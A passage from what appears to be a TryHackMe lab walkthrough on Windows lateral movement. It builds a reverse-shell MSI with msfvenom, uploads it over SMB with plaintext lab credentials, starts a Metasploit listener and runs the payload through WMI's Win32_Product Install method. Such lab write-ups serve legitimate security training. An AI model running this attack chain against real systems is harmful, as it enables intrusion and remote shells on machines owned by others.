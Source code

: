 We then invoke the Install method from the Win32_Product class to trigger the payload:


```shell-session
PS C:\> Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}
```

As a result, you should receive a connection in your AttackBox from where you can access a flag on t1_corine.waters desktop.

```
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\bdoor-installer.msi"; Options = ""; AllUsers = $false}
```

### Practical
---

We need to follow these steps:

1. Creating payload:

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=lateralmovement LPORT=4445 -f msi > bdoor-installer.msi
```

2. Uploading file using `smbclient`:

```
smbclient -c 'put bdoor-installer.msi' -U t1_corine.waters -W ZA '//thmiis.za.tryhackme.com/admin$/' Korine.1994
```

3. Starting our listener using `msfconsole`:

```
msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/shell_reverse_tcp; set LHOST lateralmovement; set LPORT 4445;exploit"
```

4. Starting the `WMI` session using `powershell`:

```powershell
$username = 't1_corine.waters';
$password = 'Korine.1994';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force;
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
$Opt = New-CimSessionOption -Protocol DCOM
$Session = New-Cimsession -ComputerName thmiis.za.tryhackme.com -Credential $credential -SessionOption $Opt -ErrorAction Stop
```

5. Using `Invoke-CimMethod` to install the method from the `win32_product` class:

```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\bdoor-installer.msi"; Options = ""; AllUsers = $false}
```
